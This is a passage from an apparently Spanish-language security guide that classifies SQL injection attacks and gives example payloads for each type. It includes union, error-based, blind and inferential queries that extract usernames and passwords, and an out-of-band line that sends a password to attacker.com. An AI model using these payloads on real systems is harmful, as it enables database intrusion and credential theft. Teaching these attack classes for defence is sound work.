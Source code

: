 
## 🚨 2. Tipos de Ataques SQL Injection

### 2.1 In-Band SQL Injection

#### 2.1.1 Union-Based Injection
```sql
' UNION SELECT username, password FROM users --
' UNION SELECT table_name, column_name FROM information_schema.columns --
```

**Impacto**: Exfiltración de datos, acceso a información sensible, enumeración de esquema de base de datos.

#### 2.1.2 Error-Based Injection
```sql
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) --
```

**Impacto**: Obtención de información de la base de datos a través de mensajes de error.

### 2.2 Blind SQL Injection

#### 2.2.1 Boolean-Based Blind
```sql
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a' --
' AND (SELECT LENGTH(password) FROM users WHERE id=1) > 5 --
```

**Impacto**: Extracción lenta de datos mediante respuestas booleanas.

#### 2.2.2 Time-Based Blind
```sql
' AND (SELECT IF(SUBSTRING(username,1,1)='a',SLEEP(5),0) FROM users WHERE id=1) --
```

**Impacto**: Extracción de datos mediante delays temporales.

### 2.3 Out-of-Band SQL Injection

```sql
' AND (SELECT UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT password FROM users WHERE id=1)) FROM DUAL) --
```

**Impacto**: Exfiltración de datos a servidores controlados por el atacante.

### 2.4 Inferential SQL Injection

```sql
' AND EXISTS(SELECT 1 FROM users WHERE username='admin') --
' AND (SELECT COUNT(*) FROM users) > 10 --
```

**Impacto**: Inferencia de información mediante respuestas condicionales.

---